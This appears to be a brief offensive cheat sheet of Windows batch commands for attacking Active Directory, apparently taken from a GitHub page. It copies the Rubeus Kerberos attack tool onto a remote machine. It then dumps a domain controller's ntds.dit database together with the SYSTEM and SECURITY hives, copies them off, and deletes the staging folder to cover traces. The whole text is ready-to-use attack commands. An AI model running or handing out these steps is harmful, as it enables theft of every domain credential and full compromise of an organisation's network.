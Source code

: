 # Copy files between systems
```batchfile
xcopy "C:\Rubeus.exe" \\<computer>.<domain.local>\C$\Windows\system32\
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```
